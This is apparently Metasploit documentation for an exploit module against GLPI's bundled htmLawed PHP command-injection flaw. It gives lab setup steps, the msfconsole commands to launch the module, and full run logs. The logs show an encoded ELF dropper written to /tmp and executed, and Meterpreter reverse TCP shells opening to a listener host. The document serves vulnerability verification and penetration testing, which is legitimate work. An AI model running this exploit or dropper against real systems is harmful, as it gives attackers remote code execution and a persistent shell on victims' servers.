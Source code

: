## Vulnerable Application

GLPI versions 10.0.2 and below expose a vulnerable version on htmLawed which
has a php command injection opportunity.

### Installation Instructions
Taken verbatim from https://www.imaginelinux.com/install-glpi-ubuntu/
Using  Ubuntu x64 Desktop 20.04.1
1. ```sudo apt install apache2 php7.4 php7.4-curl php7.4-zip php7.4-gd php7.4-intl \
   php7.4-intl php-pear php7.4-imagick php-bz2 php7.4-imap php-memcache php7.4-pspell \
   php7.4-tidy php7.4-xmlrpc php7.4-xsl php7.4-mbstring php7.4-ldap php-cas php-apcu \
   libapache2-mod-php7.4 php7.4-mysql mariadb-server```
2. `sudo systemctl status apache2`
3. `sudo systemctl status mariadb`
4. `sudo mysql_secure_installation` # Answer 'yes' to everything
5. `sudo mysql -u root -p`
6. `CREATE DATABASE glpidb;`
7. `GRANT ALL PRIVILEGES ON glpidb.* TO 'user'@'localhost' IDENTIFIED BY 'password';`
8. `FLUSH PRIVILEGES;`
9. `exit;`
10. Grab a vulnerable version here: https://github.com/glpi-project/glpi/releases/
11. Extract that vulnerable version and move the files to `/var/www/html/glpi/`
12. `sudo chmod 755 -R /var/www/html/`
13. `sudo chown www-data:www-data -R /var/www/html/`
14. Create a virtual host if you want `sudo nano /etc/apache2/sites-available/glpi.conf`
```<VirtualHost *:80>
   ServerAdmin admin@your_domain.com
   DocumentRoot /var/www/html/glpi
   ServerName your-domain.com

   <Directory /var/www/html/glpi>
        Options FollowSymlinks
        AllowOverride All
        Require all granted
   </Directory>

   ErrorLog ${APACHE_LOG_DIR}/your-domain.com_error.log
   CustomLog ${APACHE_LOG_DIR}/your-domain.com_access.log combined

</VirtualHost>
```

15. `sudo ln -s /etc/apache2/sites-available/glpi.conf /etc/apache2/sites-enabled/glpi.conf`
16. `sudo a2enmod rewrite`
17. `sudo systemctl restart apache2`
18. Visit the new server at http://<yourhost>/glpi
19. Follow setup instructions on screen

## Options
No extra options to be set, but make sure the uripath is correct

## Verification Steps
* Do: `msfconsole`
* Do: `use exploit/linux/http/glpi_htmlawed_php_injection`
* Do: `set upripath <uripath>`
* Do: `set rhost <rhost>`
* Do: `set lhost <lhost>`
* Do: **Verify** you get a session

## Scenarios
### Using GLPI 9.5.9 running on Ubuntu 20.04.1 x64
#### Linux Dropper
```
msf6 exploit(linux/http/glpi_htmlawed_php_injection) > show options

Module options (exploit/linux/http/glpi_htmlawed_php_injection):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS   10.5.132.190     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT    80               yes       The target port (TCP)
   SSL      false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH  /glpi/glpi/      no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.5.135.109     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux (Dropper)


msf6 exploit(linux/http/glpi_htmlawed_php_injection) > run

[*] Started reverse TCP handler on 10.5.135.109:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] token = 4578e2880dfc8091a10c38ea60ead228
[*] sid = vitn15j8j9f0lljrfu7daq9es8
[+] The target appears to be vulnerable.
[*] Executing Linux (Dropper) for linux/x64/meterpreter/reverse_tcp
[*] Generated command stager: ["printf '\\177\\105\\114\\106\\2\\1\\1\\0\\0\\0\\0\\0\\0\\0\\0\\0\\2\\0\\76\\0\\1\\0\\0\\0\\170\\0\\100\\0\\0\\0\\0\\0\\100\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\100\\0\\70\\0\\1\\0\\0\\0\\0\\0\\0\\0\\1\\0\\0\\0\\7\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\0\\100\\0\\0\\0\\0\\0\\0\\0\\100\\0\\0\\0\\0\\0\\372\\0\\0\\0\\0\\0\\0\\0\\174\\1\\0\\0\\0\\0\\0\\0\\0\\20\\0\\0\\0\\0\\0\\0\\110\\61\\377\\152\\11\\130\\231\\266\\20\\110\\211\\326\\115\\61\\311\\152\\42\\101\\132\\262\\7\\17\\5\\110\\205\\300\\170\\121\\152\\12\\101\\131\\120\\152\\51\\130\\231\\152\\2\\137\\152\\1\\136\\17\\5\\110\\205\\300\\170\\73\\110\\227\\110\\271\\2\\0\\21\\134\\12\\5\\207\\155\\121\\110\\211\\346\\152\\20\\132\\152\\52\\130\\17\\5\\131\\110\\205\\300\\171\\45\\111\\377\\311\\164\\30\\127\\152\\43\\130\\152\\0\\152\\5\\110\\211\\347\\110\\61\\366\\17\\5\\131\\131\\137\\110\\205\\300\\171\\307\\152\\74\\130\\152\\1\\137\\17\\5\\136\\152\\176\\132\\17\\5\\110\\205\\300\\170\\355\\377\\346'>>/tmp/bLaTw ; chmod +x /tmp/bLaTw ; /tmp/bLaTw ; rm -f /tmp/bLaTw"]
[*] execute_command
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045348 bytes) to 10.5.132.190
[*] Command Stager progress - 100.00% done (809/809 bytes)
[*] Meterpreter session 4 opened (10.5.135.109:4444 -> 10.5.132.190:36378) at 2022-10-19 17:05:28 -0500

meterpreter > sysinfo
Computer     : 10.5.132.190
OS           : Ubuntu 20.04 (Linux 5.15.0-52-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > exit
[*] Shutting down Meterpreter...
```

#### Unix Command
```
[*] 10.5.132.190 - Meterpreter session 4 closed.  Reason: Died
smsf6 exploit(linux/http/glpi_htmlawed_php_injection) > set target 0
target => 0
msf6 exploit(linux/http/glpi_htmlawed_php_injection) > set payload cmd/unix/python/meterpreter/reverse_tcp
payload => cmd/unix/python/meterpreter/reverse_tcp
msf6 exploit(linux/http/glpi_htmlawed_php_injection) > run

[*] Started reverse TCP handler on 10.5.135.109:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] token = 154f788cf9a685dac8753df78c6c3a1c
[*] sid = 1mcp7n5vq9v6tnqlbm324qk9ce
[+] The target appears to be vulnerable.
[*] Executing Unix Command for cmd/unix/python/meterpreter/reverse_tcp
[*] execute_command
[*] Sending stage (40168 bytes) to 10.5.132.190
[*] Meterpreter session 5 opened (10.5.135.109:4444 -> 10.5.132.190:39622) at 2022-10-19 17:06:36 -0500

meterpreter > sysinfo
Computer        : ubuntu-20041
OS              : Linux 5.15.0-52-generic #58~20.04.1-Ubuntu SMP Thu Oct 13 13:09:46 UTC 2022
Architecture    : x64
System Language : C
Meterpreter     : python/linux
meterpreter > exit
[*] Shutting down Meterpreter...
```
